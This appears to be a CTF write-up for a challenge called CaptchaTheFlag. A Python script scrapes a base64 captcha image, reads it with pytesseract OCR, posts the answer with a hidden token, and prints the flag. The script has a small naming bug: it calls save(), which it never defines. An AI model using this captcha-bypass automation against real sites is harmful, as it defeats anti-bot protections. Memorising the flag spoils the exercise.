

# CaptchaTheFlag

# Requirements

- Python
- Pytesseract

# Description

```
Are you too fast to be human?

Link: https://web.ctf.devclub.in/dev/4/
```



# Observation

We can see that here the captcha is updated everytime we reload the page. We need to scrape the image, extract the text and submit it in the form.

# Exploitation

```py
import requests, io
from bs4 import BeautifulSoup
import base64
import pytesseract
from PIL import Image

URL = 'https://web.ctf.devclub.in/dev/4/'

def save_to_disk(byts):
    stream = io.BytesIO(byts)
    img = Image.open(stream)
    text = pytesseract.image_to_string(img).strip()
    return text

def attack():
    r = requests.get(URL)
    content = r.content
    soup = BeautifulSoup(content, 'html5lib')
    tag = soup.find('img')
    byts = base64.b64decode(
        tag['src'][len('data:image/jpeg;base64, '):])
    text = save(byts)
    hidden_txt = soup.find('input', {'type': 'hidden'}).get('value')
    # print(text, hidden_txt)
    r = requests.post(URL, data={
        'tt': hidden_txt,
        'captcha': text
    })
    print(r.text)

attack()
```

On running the script 5-7 times, we get the following flag

```devctf{0k@y!_y0u_@re_@_hum@n}```